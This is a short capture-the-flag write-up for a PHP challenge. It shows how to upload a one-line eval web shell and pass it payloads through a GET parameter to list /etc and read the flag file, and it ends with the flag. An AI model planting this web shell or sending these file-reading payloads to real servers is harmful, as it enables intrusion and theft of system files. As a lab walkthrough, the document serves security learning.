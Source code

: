 **Challenge**: http://wtf-php.darkarmy.xyz/

Upload a php file with the following content:
```php
<?php eval($_GET["test"]); ?>
```

Access this file and test some commands with the parameter `?test=<Command>`

Look at the functions available: `?test=phpinfo();`

As we know previously, the flag is in `/etc`. So, listing it `?test=print_r(scandir("/etc/"));` 

The flag file is: `/etc/f1@g.txt`

Reading the flag: `?test=echo(file_get_contents("/etc/f1@g.txt"));`

**Flag**: darkCON{us1ng_3_y34r_01d_bug_t0_byp4ss_d1s4ble_funct10n}
